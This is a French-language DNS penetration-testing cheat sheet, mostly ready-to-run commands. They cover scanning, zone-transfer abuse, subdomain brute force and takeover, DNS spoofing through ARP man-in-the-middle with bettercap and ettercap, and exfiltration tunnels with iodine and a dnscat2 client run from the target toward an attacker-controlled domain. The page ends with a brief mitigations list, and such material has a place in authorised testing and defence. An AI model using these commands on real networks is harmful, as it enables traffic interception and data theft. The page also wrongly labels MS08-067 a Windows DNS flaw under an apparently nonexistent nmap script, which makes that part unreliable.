

## Scanner un serveur DNS avec Nmap

### Détecter un serveur DNS
```bash
nmap -p53 -Pn -sV -sC <IP_CIBLE>
```

### Vérifier la vulnérabilité MS08-067 (Windows DNS)
```bash
nmap -p 53 --script=dns-vuln-ms08-067 <IP_CIBLE>
```

## Analyse des enregistrements DNS (A, AAAA, MX, TXT, SRV, CNAME)

L'énumération manuelle des enregistrements permet de cartographier l'infrastructure exposée.

```bash
# Enregistrements A (IPv4) et AAAA (IPv6)
dig A <DOMAINE> @<DNS>
dig AAAA <DOMAINE> @<DNS>

# Enregistrements MX (Mail Exchange)
dig MX <DOMAINE> @<DNS>

# Enregistrements TXT (souvent utilisés pour SPF/DKIM ou vérification de propriété)
dig TXT <DOMAINE> @<DNS>

# Enregistrements SRV (Services, utile pour Active Directory Enumeration)
dig SRV _ldap._tcp.dc._msdcs.<DOMAINE> @<DNS>

# Enregistrements CNAME (Alias)
dig CNAME <SOUS-DOMAINE> @<DNS>
```

## Transfert de Zone DNS

> [!warning]
> Le transfert de zone (AXFR) est rare sur les serveurs modernes mais critique s'il est activé.

### Exploiter un transfert de zone avec dig
```bash
dig AXFR @<NOM_SERVEUR_DNS> <DOMAINE_CIBLE>
```

### Exploiter avec host
```bash
host -t axfr <DOMAINE_CIBLE> <SERVEUR_DNS>
```

### Exploiter avec fierce
```bash
fierce --domain <DOMAINE_CIBLE>
```

## Énumération des Sous-Domaines

### Lister les sous-domaines avec subfinder
```bash
subfinder -d <DOMAINE_CIBLE>
```

### Brute-force des sous-domaines avec sublist3r
```bash
sublist3r -d <DOMAINE_CIBLE> -b
```

### Rechercher les sous-domaines via crt.sh
```bash
curl -s "https://crt.sh/?q=<DOMAINE_CIBLE>&output=json" | jq -r '.[].name_value' | sort -u
```

### Exploiter amass pour un scan avancé
```bash
amass enum -d <DOMAINE_CIBLE>
```

## Brute-force des Sous-Domaines

### Tester des sous-domaines avec dnsrecon
```bash
dnsrecon -d <DOMAINE_CIBLE> -D wordlist.txt -t brt
```

### Brute-force avec massdns
```bash
massdns -r resolvers.txt -t A -o S -w results.txt wordlist.txt
```

## Prise de Contrôle des Sous-Domaines (Subdomain Takeover)

> [!warning]
> Le Subdomain Takeover nécessite une vérification manuelle pour confirmer l'existence du service tiers.

### Tester avec host
```bash
host <SOUS-DOMAINE>
```

### Scanner avec subjack
```bash
subjack -w subdomains.txt -t 10 -timeout 30 -o results.txt -ssl
```

## DNSSEC et ses implications

Le DNSSEC (Domain Name System Security Extensions) signe les enregistrements pour garantir leur intégrité.

```bash
# Vérifier si le domaine supporte DNSSEC
dig DNSKEY <DOMAINE> +multiline
```

[!tip]
Si DNSSEC est activé, les attaques par empoisonnement de cache sont beaucoup plus complexes, mais des erreurs de configuration dans la gestion des clés (KSK/ZSK) peuvent parfois être exploitées.

## Configuration des fichiers de zone (BIND/Windows DNS)

Lors d'un audit de configuration, l'analyse des fichiers de zone révèle souvent des informations critiques sur l'architecture interne.

*   **BIND (`/etc/bind/db.domain.com`)** : Vérifier les directives `allow-transfer` et `allow-query`.
*   **Windows DNS** : Les fichiers sont généralement situés dans `%SystemRoot%\System32\dns\`.

## Analyse de trafic DNS (Wireshark/Tcpdump)

L'analyse du trafic permet d'identifier les requêtes suspectes ou les tentatives d'exfiltration.

```bash
# Capture du trafic DNS sur l'interface
tcpdump -i eth0 port 53 -w dns_traffic.pcap

# Filtrage Wireshark pour isoler les requêtes DNS
dns.flags.response == 0
```

## Attaque DNS Spoofing (Empoisonnement DNS)

> [!warning]
> Le DNS Spoofing nécessite une position MITM (ARP poisoning ou autre).

### MITM avec bettercap
```bash
bettercap -iface eth0
```

```bash
set dns.spoof.domains <DOMAINE_CIBLE>
set dns.spoof.address <IP_FAKE>
dns.spoof on
```

### DNS Spoofing avec ettercap
Modifier le fichier `/etc/ettercap/etter.dns` :
```text
example.com A 192.168.1.100
*.example.com A 192.168.1.100
```

Exécuter **ettercap** :
```bash
ettercap -T -q -F etter.dns -M ARP // //
```

## Tunneling DNS (Exfiltration de Données)

> [!warning]
> Le tunneling DNS est bruyant et facilement détectable par un IDS/IPS.

### Créer un tunnel avec iodine
```bash
iodined -f -P <PASSWORD> -C 192.168.1.1 10.0.0.1 mydomain.com
```

### Exploiter DNS avec dnscat2
Démarrer le serveur **dnscat2** :
```bash
ruby ./dnscat2.rb
```

Lancer le client **dnscat2** depuis la cible :
```bash
dnscat --dns mydomain.com
```

## Scanner les Vulnérabilités DNS

> [!warning]
> Attention aux faux positifs lors du scan de vulnérabilités avec **nmap**.

### Vérifier les vulnérabilités avec nmap
```bash
nmap -p 53 --script=dns-vuln* <IP_CIBLE>
```

### Tester la vulnérabilité DNS Cache Snooping
```bash
dig @<SERVEUR_DNS> <DOMAINE> +norecurse
```

## Détournement de Sessions DNS (DNS Hijacking)

### Lister les configurations DNS avec resolvectl
```bash
resolvectl status
```

### Modifier les serveurs DNS avec nmcli
```bash
nmcli con mod eth0 ipv4.dns "8.8.8.8 8.8.4.4"
nmcli con up eth0
```

## Atténuations et bonnes pratiques de sécurisation

*   **Désactiver le transfert de zone (AXFR)** pour les adresses IP non autorisées.
*   **Implémenter DNSSEC** pour garantir l'intégrité des réponses.
*   **Restreindre les requêtes récursives** aux seuls clients internes.
*   **Surveiller les logs DNS** pour détecter des comportements anormaux (exfiltration, requêtes massives).
*   **Utiliser des solutions de filtrage DNS** pour bloquer les domaines malveillants.

## Résumé des commandes

| Action | Commande |
| :--- | :--- |
| Scanner un serveur DNS | `nmap -p53 -Pn -sV -sC <IP>` |
| Tester un transfert de zone | `dig AXFR @<DNS> <DOMAINE>` |
| Enumérer les sous-domaines | `subfinder -d <DOMAINE>` |
| Brute-force des sous-domaines | `sublist3r -d <DOMAINE>` |
| Tester un takeover de sous-domaine | `subjack -w subdomains.txt -t 10 -ssl` |
| MITM & Spoofing DNS | `bettercap -iface eth0; dns.spoof on` |
| Créer un tunnel DNS | `iodined -f -P pass 10.0.0.1 mydomain.com` |
| Scanner les failles DNS | `nmap -p 53 --script=dns-vuln* <IP>` |

Ces techniques s'inscrivent dans une méthodologie globale incluant l'**Active Directory Enumeration**, le **Network Scanning and Enumeration**, les **MITM Attacks** et les **Exfiltration Techniques**.